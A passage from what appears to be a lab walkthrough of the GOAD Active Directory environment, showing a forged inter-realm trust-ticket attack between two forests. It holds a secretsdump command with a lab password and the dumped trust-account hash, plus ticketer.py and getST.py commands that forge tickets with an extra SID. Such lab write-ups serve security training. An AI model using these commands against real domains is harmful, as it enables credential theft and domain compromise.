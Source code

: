 ## Trust ticket with external forest ( essos -> sevenkingdoms)

- Excatly like we done before on domain forest we can do this on external forest but just like with the golden ticket we need the sid history enabled to exploit.

- Find the domain sid with lookupsid.py
  - essos SID : S-1-5-21-2203133648-1386395927-1390703624
  - sevenkingdoms SID: S-1-5-21-1409754491-4246775990-3914137275

```
secretsdump -just-dc-user 'SEVENKINGDOMS$' essos.local/daenerys.targaryen:'BurnThemAll!'@192.168.56.12
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:285b80ddc1ad529f27403804e75a9ab1:::
...
```

- Create the inter-realm tgt ticket 

```bash
ticketer.py -nthash 285b80ddc1ad529f27403804e75a9ab1 \
 -domain-sid S-1-5-21-2203133648-1386395927-1390703624 \
 -domain essos.local \
 -extra-sid S-1-5-21-1409754491-4246775990-3914137275-1132 \
 -spn krbtgt/sevenkingdoms.local trustdragon
```

![trust_external_trustticket1.png](/assets/blog/GOAD/trust_external_trustticket1.png)

- Ask a service ticket for kingslanding cifs

```bash
export KRB5CCNAME=/workspace/trusts/external/trustdragon.ccache
getST.py -k -no-pass -spn cifs/kingslanding.sevenkingdoms.local \
 sevenkingdoms.local/trustdragon@sevenkingdoms.local -debug
```
